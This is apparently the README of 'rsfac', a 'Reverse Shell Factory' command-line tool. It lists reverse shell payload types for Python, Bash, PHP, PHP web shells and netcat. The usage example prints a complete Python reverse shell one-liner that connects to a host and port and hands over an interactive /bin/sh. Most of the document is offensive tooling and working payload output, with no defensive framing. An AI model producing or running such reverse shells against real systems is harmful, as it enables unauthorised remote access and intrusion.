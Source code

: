 <h1 align="center">rsfac</h1>
<p align="center">Reverse Shell Factory</p>
<p align="center">It is simple to create many types of reverse shell by command line.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

<p align="center">Tell me if you find any errors. :)</p>

***

## Help Menu
```
    ------Help Menu------
    Reverse Shell Factory
    v.1
    
    Usage Method:
    python3 rsfac.py <args>
    
    Example:
    python3 rsfac.py l=py h=192.168.1.10 p=4444
    
    
    -Commands-----------
    h=        Local Host
    p=        Local Port
    l=           Payload
    help       Help Menu
    
    
    -Reverse Shell Payloads------
    py              Simple Python
    py3            Simple Python3
    bash              Simple Bash
    php                Simple PHP
    php2       Second Type of PHP
    phpw     Shell For Web Server
    phpw2   Simple For Web Server
    nc          Some Types Netcat

```
## Usage Example

```
python3 rsfac.py h=192.168.1.10 p=4444 l=py
./rsfac h=192.168.1.10 p=4444 l=py

Reverse Shell Factory

Local Host: 192.168.1.10
Local Port: 4444
Type: py

Simple Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
